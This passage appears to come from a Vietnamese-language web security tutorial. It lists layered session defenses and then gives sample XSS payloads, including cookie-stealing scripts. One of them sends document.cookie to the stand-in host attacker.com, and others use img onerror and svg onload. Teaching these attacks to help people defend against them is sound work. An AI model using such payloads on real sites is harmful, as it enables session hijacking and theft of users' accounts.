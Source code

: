 ### ✅ TỐT NHẤT - Kết Hợp Nhiều Lớp Bảo Vệ

```javascript
// 1. Session với database
// 2. JWT với signature
// 3. httpOnly: true
// 4. secure: true (HTTPS)
// 5. SameSite cookie
// 6. CSRF token
// 7. Rate limiting
// 8. Password hashing (bcrypt)
```

## 🎓 XSS Payloads Mẫu

### 1. Basic Alert

```html
<script>
    alert("XSS");
</script>
<script>
    alert(document.cookie);
</script>
```

### 2. Cookie Stealer

```html
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
```

### 3. External Server (Real Attack)

```html
<script>
    var img = new Image();
    img.src = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
```

### 4. Obfuscated XSS

```html
<img src="x" onerror="fetch('/api/steal?cookie='+document.cookie)" />
```

### 5. DOM-based XSS

```html
<svg onload="fetch('/api/steal?cookie='+document.cookie)"></svg>
```

